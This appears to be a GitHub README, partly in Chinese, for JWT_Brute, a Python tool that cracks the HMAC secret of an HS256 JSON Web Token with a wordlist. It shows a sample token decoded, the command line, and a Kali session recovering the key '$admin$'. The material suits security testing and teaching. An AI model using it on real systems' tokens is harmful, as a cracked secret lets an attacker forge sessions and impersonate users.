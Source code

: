 # JWT_Brute

## Example

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibmFuYSIsImFjdGlvbiI6InVwbG9hZCJ9.56wwCrB9tIgmUnYpLPxkO8GYj1soCjuu_skTlbH_Gg8`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9 >> base64 decode >>  {"alg":"HS256","typ":"JWT"}

eyJ1c2VyIjoibmFuYSIsImFjdGlvbiI6InVwbG9hZCJ9 >> base64 decode >>  {"user":"nana","action":"upload"}

56wwCrB9tIgmUnYpLPxkO8GYj1soCjuu_skTlbH_Gg8 >> 需要指定key 加密得到
```

![](./jwt_brute_success.png)

## jwt io网站验证也是同样结果

![](./jwt-io.jpg)

## python usage:

`python3 jwt_brute.py 4.txt `


```
root@kali:~/jwt# python3 jwt_brute.py 

Usage: python jwt_brute.py dict.txt

root@kali:~/jwt# tail -n 10 4.txt 
zzzs
zzzt
zzzu
zzzv
zzzw
zzzx
zzzy
zzzz
admin
$admin$

root@kali:~/jwt# cat 4.txt |wc -l
456978

root@kali:~/jwt# python3 jwt_brute.py 4.txt 


      ___        _______     ____             _       
     | \ \      / /_   _|   | __ ) _ __ _   _| |_ ___ 
  _  | |\ \ /\ / /  | |     |  _ \| '__| | | | __/ _ \
 | |_| | \ V  V /   | |     | |_) | |  | |_| | ||  __/
  \___/   \_/\_/    |_|     |____/|_|   \__,_|\__\___|
                                                      

          Usage: python3 jwt.py dict.txt 
                                                           
For Example: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibmFuYSIsImFjdGlvbiI6InVwbG9hZCJ9.56wwCrB9tIgmUnYpLPxkO8GYj1soCjuu_skTlbH_Gg8

             This key is  >>> $admin$
_________________________________________________________________________________________________________________________________________

Please Input Your Encode JWT Str= eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoibmFuYSIsImFjdGlvbiI6InVwbG9hZCJ9.56wwCrB9tIgmUnYpLPxkO8GYj1soCjuu_skTlbH_Gg8                                                                                                                         try admin                                                          
jwt.decode={'user': 'nana', 'action': 'upload'}

bingo11! found key --> $admin$ <--
root@kali:~/jwt# 

```

## 参考链接

https://www.freebuf.com/vuls/211842.html

https://jwt.io/
